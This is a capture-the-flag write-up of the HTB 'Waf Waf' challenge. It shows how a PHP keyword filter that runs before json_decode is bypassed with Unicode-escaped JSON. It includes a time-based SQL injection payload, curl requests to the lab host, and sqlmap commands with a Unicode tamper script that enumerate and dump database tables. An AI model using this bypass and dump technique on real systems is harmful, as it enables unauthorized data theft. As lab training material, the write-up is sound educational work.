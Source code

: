 # bugbase_task2
# Waf Waf Challenge HTB

<img src="Picture1.png">

When we open the page we get:

<img src="Picture2.png">

We can see what looks like the ```index.php``` of the page.
In the script you can see that a SQL database is queried and the input of POST requests is filtered using a basic WAF (Web Application firewall), implemented through the ```waf()``` function of the ```db``` class.

<img src="Picture3.png">

The script ends immediately when at least one of the following characters or strings is found
in the input string:

```
[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having
```

The check is not case sensitive.
So this looks like vulnerable to a SQL injection.

# SQL Injection

Checking what happens when we make a request with one of the words that are filtered by the waf:

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}
```

A subsequent json_decode is performed on the input string, for what the script expects to receive JSON objects.
Because decoding the string happens after the function checks waf () we can take advantage of the fact that in JSON it is possible to encode characters in UTF-16, which when decoding the JSON, will return to the format original.
Let's do a test:

Para ello haremos una peticion POST con curl la cual capturaremos con Burp Suite (```http://127.0.0.1:8080 ``` es la dirección y puerto del proxy de burp suite)

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080  
```
<img src="Picture4.png">

Once the request is captured, we will send it to the repeater

Where we send it and we appreciate the 149 bytes of the response

<img src="Picture5.png">

Later we will test if we can evade the waf with a sqli payload, we will use the following payload ```' or sleep(10) #``` which we will encode it to UTF-16 since as we saw previously we will proceed to a ```json_decode ()```.

I use this [unicode converter](https://www.branah.com/unicode-converter)

<img src="Picture11.png">

Now we load the payload in the request and send it:

<img src="Picture12.png">

Where we can see that we get a 200 and that there are still 149 response bytes.

Now we will copy the request to a file putting ```*``` where we want the payload to be loaded.

<img src="Picture13.png">

# Blind SQL Injection

To obtain information in this case we will use a Blind SQL Injection and we will execute the following ```sqlmap``` command we should get the databases available:

```bash
─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql
```

<img src="Picture6.png">

We have five databases db_m8452, info_schema, mysql, performance_schema, sys.
Let's extract the list of tables from the database. db_m8452:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql
```


<img src="Picture7.png">

The db_m8452 database has two tables, ```definitely_not_a_flag``` and ```notes```. Now let's dump the contents of the table ```definitely_not_a_flag```:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql
```

many payloads later .. we got the flag.

<img src="Picture10.png">

Byee
